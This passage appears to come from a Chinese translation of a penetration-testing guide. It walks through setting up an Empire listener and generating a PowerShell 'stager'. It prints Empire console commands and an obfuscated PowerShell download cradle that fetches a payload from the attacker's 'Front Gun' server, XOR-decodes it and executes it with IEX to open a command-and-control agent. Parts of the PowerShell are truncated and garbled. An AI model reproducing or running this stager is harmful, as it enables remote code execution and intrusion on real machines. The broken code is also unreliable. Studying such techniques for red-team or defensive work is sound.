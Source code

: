 ![empire_listeners_menu](./media/image14.png){width="6.1133781714785655in"
height="3.1203707349081364in"}

（此图为了展示清晰度，使用了博客版原图）

> 通过使用set命令设置正确的端口和地址（例如 set port
> 443）。然后通过发出命令 run <Listener_name>来执行监听器。
>
> 现在我们需要生成将连接回此侦听器的PowerShell代码。我们将这段代码称为"stager"或"agent"：
```
(Emire) > Usestager launcher

(Emire) > Set Listener test

(Emire) > Set Base64 False

(Emire) > Set OutFile /root/stager.ps1
```
```powershell
[SysTeM.NET.SErVicePOinTMaNAGer]::EXPeCt10
= 0;$wC=NEw-ObjEct SYstEM.Net.WEbCLIenT;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$Wc.HeaderS.Add('User- Agent',$u);$Wc.PROXy= [SystEm.NEt.WebREQuest]::DefAuLtWEBPROxy;$W [SYsTEM.NeT.CREDENtiAlCAChe]::DefAulTNeTwORK
[chAr[]]$b=([cHaR[]] ($WC.DowNLOAdStrinG("http://<Front_Gun>:443/index.
{$_-bXor$K[$i++%$k.LEngTH]};IEX ($B-joIn'')
```

> 您可以看到代理使用对称加密密钥来传输有效负载并很好地处理工作站上定义的任何潜在代理。在远程计算机上执行脚本时，我们会在Front
> Gun服务器上收到新通知。

![empire_agent_checkin](./media/image15.png){width="5.768055555555556in"